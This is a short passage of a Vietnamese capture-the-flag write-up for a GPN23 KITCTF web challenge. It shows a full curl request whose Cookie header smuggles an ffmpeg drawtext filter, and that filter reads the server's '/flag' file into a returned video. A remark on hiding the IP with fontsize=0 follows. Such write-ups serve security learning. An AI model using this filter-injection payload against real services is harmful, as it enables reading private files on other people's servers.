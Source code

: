 ![image](./pcs/repeater.PNG)

`curl` lại

``` 
curl 'https://silvercreek-of-uncomfortably-powerful-harmony.gpn23.ctf.kitctf.de/' \
  -H "Cookie: 1.1.1.1:':,drawtext=fontfile=font.ttf:textfile='/flag':fontcolor=white:fontsize=24:box=1:boxcolor=black@0.5:boxborderw=5:x=(w-text_w)/2:y=(h-text_h)/2" \
  -H "Host: silvercreek-of-uncomfortably-powerful-harmony.gpn23.ctf.kitctf.de" \
  -H "Sec-Ch-Ua-Platform: \"Windows\"" \
  -H "Accept-Encoding: gzip, deflate, br" \
  -H "Accept-Language: en-US,en;q=0.9" \
  -H "Sec-Ch-Ua: \"Chromium\";v=\"137\", \"Not/A)Brand\";v=\"24\"" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36" \
  -H "Sec-Ch-Ua-Mobile: ?0" \
  -H "Accept: */*" \
  -H "Sec-Fetch-Site: same-origin" \
  -H "Sec-Fetch-Mode: no-cors" \
  -H "Sec-Fetch-Dest: video" \
  -H "Referer: https://silvercreek-of-uncomfortably-powerful-harmony.gpn23.ctf.kitctf.de/" \
  -H "Range: bytes=0-" \
  -H "Priority: i" \
  -H "Connection: keep-alive" \
  --output flag.mp4
```

Và ra đúng flag, với 2 đoạn text được đưa vào video đúng như dự đoán, có thể làm đoạn IP không hiện ra nữa bằng cách thêm `fontsize=0` vào sau 1.1.1.1 cũng được
